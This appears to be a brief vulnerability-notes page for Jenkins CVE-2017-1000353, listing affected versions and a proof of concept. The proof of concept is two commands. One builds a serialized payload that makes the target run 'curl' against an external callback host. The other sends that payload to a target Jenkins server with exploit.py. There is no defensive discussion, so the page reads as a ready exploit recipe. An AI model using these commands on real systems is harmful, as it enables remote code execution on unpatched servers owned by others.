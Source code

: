 <languages /> <translate>

影響版本
--------

</translate>

    Jenkins<=2.56
    Jenkins LTS <= 2.46.1

POC
---

<https://github.com/vulhub/CVE-2017-1000353>

    java  -jar  CVE-2017-1000353-SNAPSHOT-all.jar  jenkins_poc.ser  "curl http://xxx.ceye.io"

    python exploit.py http://x.x.x.x:8080 jenkins_poc.ser